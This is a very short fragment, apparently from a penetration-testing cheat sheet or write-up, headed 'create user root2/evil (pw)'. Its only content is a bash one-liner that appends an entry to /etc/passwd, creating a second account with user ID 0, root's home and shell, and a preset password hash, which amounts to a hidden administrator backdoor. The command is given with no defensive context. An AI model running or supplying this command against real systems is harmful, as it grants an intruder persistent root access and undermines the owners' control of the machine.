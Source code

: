create user `root2/evil` (pw)
```bash
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
```